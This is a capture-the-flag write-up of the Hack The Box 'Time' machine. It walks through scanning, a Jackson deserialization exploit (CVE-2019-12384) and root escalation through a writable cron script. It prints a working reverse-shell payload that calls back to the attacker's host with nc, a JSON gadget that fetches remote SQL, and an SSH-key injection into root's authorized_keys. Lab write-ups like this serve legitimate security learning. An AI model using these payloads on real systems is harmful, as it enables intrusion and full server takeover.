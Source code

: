 ![](time_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.214 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.214`
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
```

## Web_server

**Title:** **Online JSON parser :** What is JSON PARSER ONLINE? JSON PARSER ONLINE lets you parse JSON string into a pretty and colorful JSON tree view. It parse JSON String and converts it into a human readable format string.

* there are two options 

  **Option1:** **Beautify:** convert JSON single string code into a JSON tree view.

  **Option2:** **Validate (beta!):** Validates a JSON string against RFC 4627 (The application/json media type for JavaScript Object Notation) and against the JavaScript language specification.

  * **Error in Validate (beta!) option**

    when Validate with normal text string it through an error

	    Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'test': was expecting 'null', 'true', 'false' or NaN

  *this error not indicate any vulnerability, this error occurs because of the serialization of a Javascript object. All String values MUST be enclosed in double quotes in JSON.*
  
  *if we sent same string inside double quotes it works fine.*

* But the Error tells that the server using JACKSON JSON parser,
  
  **[Jackson](https://github.com/FasterXML/jackson) :** Jackson is a high-performance JSON processor for Java. More than that, Jackson is a suite of data-processing tools for Java (and the JVM platform), Jackson has been known as "the Java JSON library" or "the best JSON parser for Java".
  
  *this server using Jackson library for deserializing JSONs*
  
**vulnerability :** de-serialization vulnerability CVE-2019-12384

**Jackson gadgets - Anatomy of a vulnerability** doyensec.com [Report](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)

*an attacker may leverage this de-serialization vulnerability to trigger attacks such as Server-Side Request Forgery (SSRF) and remote code execution.*

* **attack**

  this attack produce in 2 steps
  
  * **First**, serve the inject.sql INIT file through a simple http server,
  * **Second**, call the script from the server.
  
# User Exploit

**First**, create **inject.sql**  
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <tun0> 4141 >/tmp/f')
```

**Second**, serve the inject.sql INIT file through a simple http server

    sudo python -m SimpleHTTPServer 80
	  
**Third**, code that pass into the validate option
```json
[
   "ch.qos.logback.core.db.DriverManagerConnectionSource",
   {
      "url": "jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://<tun0>/injection.sql'"
   }
]
```
**Fourth**, open nc

    nc -nvlp 4141

**shell**,

```bash
listening on [any] 4141 ...
connect to [10.10.15.151] from (UNKNOWN) [10.10.10.214] 54528
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
pericles@time:/var/www/html$
```

* **user flag**

	  pericles@time:/var/www/html$ cat ~/user.txt
	  cat ~/user.txt
	  76086ade************************

# Local Enumeration

running lipeas found a script owned by user pericles
```bash
[+] .sh files in path
You own the script: /usr/bin/timer_backup.sh
```

**timer_backup.sh**

	pericles@time:/home/pericles$ ls -lsh /usr/bin/timer_backup.sh
	ls -lsh /usr/bin/timer_backup.sh
	-rwxrw-rw- 1 pericles pericles 88 Nov 18 04:00 /usr/bin/timer_backup.sh

	pericles@time:/home/pericles$ cat /usr/bin/timer_backup.sh
	cat /usr/bin/timer_backup.sh
	#!/bin/bash
	zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip

* script specified some root task that means script is running as root
  * this script backup complete server directory in root
* script is running in every ~10sec and after that script get reset

# Root Exploit

*putting any reverse-shell in the `timer_backup.sh` to get a root shell doesn't works properly because script exits as soon as it executed and so shell too.*
*simplest way to get proper root shell is to put ssh key in the script so that we can ssh as root.*

## public ssh key

* create ssh key: `ssh-keygen -f time`
* copy public ssh key: `cat time.pub`

	  ssh-rsa AAAA...ZXMk=

* put ssh key in `timer_backup.sh` script

	  echo "echo 'ssh-rsa AAAA...ZXMk=' >> /root/.ssh/authorized_keys" > /usr/bin/timer_backup.sh

* ssh in: `chdom 600 time`

	  ssh -i time root@10.10.10.214
	  
	  root@time:~# cat root.txt
	  dffebc49************************

### cron tab that occurs root privesc

`crontab -u root -l`
```bash
*/5 * * * * cp /root/timer_backup.sh /usr/bin/timer_backup.sh; chown pericles:pericles /usr/bin/timer.sh; chmod 766 /usr/bin/timer_backup.sh
```